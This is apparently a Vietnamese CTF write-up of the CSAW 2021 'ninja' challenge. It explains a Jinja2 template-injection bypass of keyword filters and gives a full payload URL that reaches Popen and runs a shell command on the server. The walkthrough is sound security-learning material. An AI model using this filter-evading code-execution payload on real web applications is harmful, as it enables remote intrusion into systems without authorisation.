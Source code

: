 # csaw21-ctf

## ninja

Đầu tiên, khi vào chúng ta có duy nhất một URL dẫn đến một Page. Page này cho phép ta nhập tên và render ra lời chào tới tên đó. Lỗ hổng dễ nhận ra đó là SSTI tương tự bài [Templated](https://ctf.d3s34.me/hackthebox/challenge/templated).&#x20;


![screenshot-from-2021-09-13-01-38-25.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642602100131/M4VBc7cfP.png)

Cách exploit tương tự bài Templated ở trên tuy nhiên, chúng ta bị filter các keyword cho là nguy hiểm...

![screenshot-from-2021-09-11-11-28-20.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642602135509/F7Z8R0KUy.png)

&#x20;Vậy là chúng ta bị filter `_` và `base`. Cần tìm được cách bypass được các filter này. Mình tìm được bài [này](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) và bài [này](https://0day.work/jinja2-template-injection-filter-bypasses/). Nên chúng ta có các quy tắc thay thế sau:&#x20;

* Sử dụng `attr()` để gọi các `attribute` của tham số.
* Các tham số được truyền thông qua `|` tương tự pipeline.
* Ký tự `_` được thay thế bằng `\x5f`
* Khi tham chiếu đến các phần tử thì sử dụng `__getitem()__` _thay cho `[ ]`_

Và do từ khóa `base` bị filter nên đương nhiên ta sẽ dùng qua MRO.


![screenshot-from-2021-09-11-11-25-24.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642602148344/gSd1pU1s0.png)

Ở bài Templated thì mình có dùng slice để tìm được class `Popen` nhanh nhưng ở đây tìm phép thay thế có vẻ mất thời gian nên mình có học theo bài trên medium là dùng Python để tìm index bằng cơm :v

```python
file = open("lol.txt", "r")
    lst = file.read().split(",")
    for index, value in enumerate(lst):
        if value.find("Popen") != -1:
            print(index, value)
```

&#x20;Tìm được index rồi thì pass tham số vào thôi!

Payload đầy đủ sẽ như sau

```python
http://web.chal.csaw.io:5000/submit?value={""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")(2)|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(258)("cat flag.txt",shell=True,stdout=-1)|attr("communicate")()}}
```

![screenshot-from-2021-09-11-11-26-11.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642602201633/wQQJXlkrD.png)
